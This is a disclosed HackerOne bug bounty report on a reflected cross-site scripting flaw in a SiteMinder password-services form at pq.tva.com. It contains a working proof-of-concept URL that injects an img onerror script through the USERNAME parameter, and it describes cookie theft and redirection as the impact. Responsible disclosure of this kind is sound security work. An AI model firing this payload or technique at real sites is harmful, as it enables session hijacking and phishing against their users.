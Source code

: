 # xss reflected - pq.tva.com

## Report Details
- **Report ID**: 1362995
- **URL**: https://hackerone.com/reports/1362995
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-10-07T17:18:19.402Z
- **Disclosed**: 2023-09-11T11:51:23.486Z

## Reporter
- **Username**: thiagomarques
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: tennessee-valley-authority

## Vulnerability Information
POC: 

https://pq.tva.com/siteminderagent/forms/smpwservices.fcc?USERNAME=\u003cimg\u0020
src\u003dx\u0020onerror\u003d\u0022confirm(document.domain)\u0022\u003e&SMAUTHREASON=7

## Impact

With the help of xss a hacker or attacker can perform social engineering on users by redirecting them from real website to fake one. hacker can steal their cookies and download a malware on their system, and there are many more attacking scenarios a skilled attacker can perform with xss.

## Attachments
- xss.png
